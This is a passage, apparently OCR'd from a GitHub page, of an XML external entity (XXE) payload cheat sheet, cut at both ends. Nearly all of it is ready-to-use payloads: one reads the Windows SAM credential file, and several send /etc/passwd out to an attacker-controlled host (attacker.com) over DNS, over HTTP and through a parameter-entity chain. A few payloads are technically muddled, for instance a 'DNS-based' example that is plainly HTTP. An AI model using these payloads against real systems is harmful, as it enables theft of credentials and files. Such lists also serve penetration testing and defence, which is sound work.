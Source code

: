 ### Windows SAM File

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/config/SAM">]>
<root>&xxe;</root>
```

> **Note:** Accessing sensitive files may require elevated permissions.

---

## Out-of-Band (OOB) XXE Payloads

OOB XXE allows exfiltrating data to an attacker-controlled server by exploiting external entities.

### DNS-Based OOB

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://attacker.com/?data=file:///etc/passwd">]>
<root>&xxe;</root>
```

### HTTP-Based OOB

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://attacker.com/exfiltrate?data=file:///etc/passwd">]>
<root>&xxe;</root>
```

---

## Exfiltrating Data via XXE

XXE vulnerabilities can be leveraged to exfiltrate sensitive information. The payload below sends the contents of a sensitive file to an external server.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % exfil SYSTEM "http://attacker.com/?data=%xxe;">
]>
<root>&exfil;</root>
```

---

## XXE with Parameter Entities

Parameter entities can be used to define reusable entities in more complex XXE attacks.
